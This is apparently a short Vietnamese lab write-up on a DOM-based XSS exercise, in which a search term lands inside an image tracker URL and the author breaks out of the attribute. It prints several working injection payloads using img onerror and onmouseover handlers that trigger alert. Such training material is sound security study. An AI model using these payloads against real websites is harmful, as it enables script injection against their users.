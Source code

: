 welcome back this lab about DOM XSS
Đây là yêu cầu của chúng ta 

![Alt text](image-9.png)
Làm mình ngáo quá trường hợp này nó đã ulr encode đoạn giống lab1 rồi nên là không được thay vào đó nó cộng chuỗi hẳn vào cái ảnh để search luôn
![Alt text](image-10.png)
Nó như này bây giờ tìm cách tách ra thôi
<img src="/resources/images/tracker.gif?searchTerms=x"><img src=x onerror=alert("hihi")">

![Alt text](image-11.png)
                                        "><img src=x onmouseover=alert(1) />
Với payload như trên khi bạn di chuột qua ảnh sẽ alert(1)
                                        "><img src=x onerror=alert(1) />
hoặc như này và nhiều lắm
chúc các bạn thành công @@